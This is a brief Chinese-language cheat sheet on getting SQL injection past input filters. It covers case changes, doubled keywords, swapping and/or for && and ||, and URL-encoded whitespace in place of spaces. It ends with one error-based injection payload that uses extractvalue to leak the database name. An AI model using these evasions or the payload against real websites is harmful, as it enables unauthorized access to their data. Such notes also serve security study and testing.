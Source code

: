 # SQLi过滤绕过

## `and`, `or` 过滤绕过

### 1. 大小写绕过

### 2. 复写绕过

### 3. `&&`, `||` 绕过

用 `&&` 和 `||` 代替 `and` 和 `or`

提交的时候要使用URL编码

## 空格过滤绕过

### 1. `+` 代替空格

### 2. URL编码代替空格

| 符号 | URL编码 |
| ---- | ------- |
|`spaces`|`%20`|
|`tab`|`%09`|
|`LF OA new line`|`%0a`|
|`FF 0C new page`|`%0c`|
|`CR 0D carriage return`|`%0d`|
|`VT 0B vertical tab`|`%0b`|
|`-OA-` (MySQL Only)|`%a0`|

## 使用报错注入

`?id=1'||extractvalue(1,concat(0x7e,(database()),0x7e))#`
